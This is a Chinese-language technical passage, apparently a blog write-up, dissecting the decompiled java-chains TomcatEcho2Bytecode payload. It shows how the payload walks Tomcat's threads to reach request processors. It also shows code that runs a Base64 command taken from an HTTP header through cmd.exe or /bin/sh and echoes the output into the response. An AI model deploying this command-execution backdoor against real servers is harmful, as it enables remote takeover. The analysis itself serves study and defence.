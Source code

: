 以下是 java-chains/TomcatEcho2Bytecode.class 的代码片段

```java
Thread[] var2 = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), "threads");

for (int var3 = 0; var3 < var2.length; ++var3) {
    Thread var4 = var2[var3];
    if (var4 != null) {
        String var5 = var4.getName();
        if (!var5.contains("exec") && var5.contains("http")) {
            Object var6 = getFV(var4, "target");
            if (var6 instanceof Runnable) {
                try {
                    var6 = getFV(getFV(getFV(var6, "this$0"), "handler"), "global");
                } catch (Exception var141) {
                    continue;
                }

                List var8 = (List) getFV(var6, "processors");
            }
        }
    }
}
```

随便编写一个 Servlet 调试一下 Tomcat 可知，通过 target.this$0.handler.global 这个线程就是 http-nio-8082-Poller 线程，不过在 http-nio-8082-Acceptor 也有获取方式，target.endpoint.handler.global。

![debug-normal](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/TomcatEchoShell_img/debug-normal.png)

接下来就是看下面获取 request 和 response 部分的代码。

```java
List var8 = (List) getFV(var6, "processors");
for (int var9 = 0; var9 < var8.size(); ++var9) {
    Object var10 = var8.get(var9);
    var6 = getFV(var10, "req");
    Object var11 = var6.getClass().getMethod("getResponse").invoke(var6);
    try {
        var5 = (String) var6.getClass().getMethod("getHeader", String.class).invoke(var6, new String(header));
        if (var5 != null && !var5.isEmpty()) {
            String c = new String(Base64.getDecoder().decode(var5));
            String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", c} : new String[]{"/bin/sh", "-c", c};
            writeBody(var11, ((new Scanner((new ProcessBuilder(var12)).start().getInputStream())).useDelimiter("\\A").next() + "=====").getBytes());
            var1 = true;
        }
        if (var1) {
            break;
        }
    } catch (Exception var13) {
        writeBody(var11, var13.getMessage().getBytes());
    }
}
```
